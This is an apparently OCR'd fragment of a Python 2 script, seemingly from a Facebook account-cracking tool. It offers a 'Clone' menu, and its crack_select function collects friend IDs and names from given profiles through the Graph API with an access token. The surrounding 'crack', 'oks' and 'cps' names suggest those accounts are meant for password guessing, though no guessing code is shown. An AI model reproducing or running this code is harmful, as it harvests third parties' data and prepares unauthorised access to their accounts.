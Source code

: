         time.sleep(1)

        login_choice()

    os.system('clear')

    print logo

    print ''

    print '\x1b[1;0m 1. \033[1;96mClone 3 Links\033[0m \n 2. \033[1;96mClone Single id\033[0m' ##Thanks Techqaiser.& Also SyedZada Bro

    print ''

    crack_select()

def crack_select():

    select = raw_input('\x1b[0mChoose An Option : \x1b[0m')

    id = []

    oks = []

    cps = []

    if select == '1':

        os.system('clear')

        print logo

        print ''

        try:

            id_limit = 3

            print ''

        except:

            id_limit = 1

        for t in range(id_limit):

            t += 1

            idt = raw_input('\033[0m LINK OF ID : ')

            try:

                for i in requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token).json()['data']:

                    uid = i['id'].encode('utf-8')

                    na = i['name'].encode('utf-8')

                    id.append(uid + '|' + na)

            except KeyError:

                print '\x1b[91;1m  Invalid Link / Account Private '
